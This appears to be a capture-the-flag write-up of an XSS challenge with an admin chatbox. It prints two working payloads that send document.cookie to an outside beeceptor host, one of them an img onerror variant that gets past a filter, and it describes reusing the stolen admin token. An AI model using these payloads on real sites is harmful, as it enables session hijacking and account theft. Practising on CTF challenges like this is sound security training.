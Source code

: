 This challenge is clearly another xss challenge as its in the webpage link we get.<br />
We see a page with a moving image and a chatbox with an admin.

I tried the same xss as in the Government Agriculture Network challenge:<br />
\<script\>location.href="https://paulovh.free.beeceptor.com?"+ document.cookie\</script\>

This returns:<br />
HACKER ALERT!

So there is some checking for xss going on.
This can get very tricky as i found out last year however the first thing I checked already worked out:<br />
Using an img tag with an onerror that executes javascript is another very common way to inject javascript and this does work:<br />
\<img src=X onerror='location.href="https://paulovh.free.beeceptor.com?"+ document.cookie'/\>

This gave me the flag on the beeceptor mock api page!

When trying to go to /admin of the page you get redirected back to the main page.<br />
I tried this /admin page as it is a common page on many sites but for a more reliable way of getting these kind of pages you can use:<br />
dirb https://cwo-xss.web.ctfcompetition.com<br />
the dirb program will go trough a wordlist of common website paths and test them all and return you which ones worked.

The xss also gives you an auth token from the admin.
Adding this in my firefox storage (explained in my Government Agriculture Network write-up) and going again to the /admin page I now get a new page with 3 options:
- Users
- Livestreams
- Camera Controls

The first 2 do nothing the last one gives the message:<br />
Requests only accepted from 127.0.0.1

Here I got stuck. I did not know for sure there was a flag to find here but it did seem like there was something here.

I eventualy needed to read a write-up to find this flag :( There is some magic happening with parameters in the url that make the page think you are comming from 127.0.0.1<br />
I dont know how I should have found this. I will be looking for write-ups that give a better explanation than the first I found and add a better explanation here if I do.

This part I abandoned after I had failed myself in the crypto challenge. Maybe more googleing would make it clear even without finding other write-ups but at this point I had had enough for now.

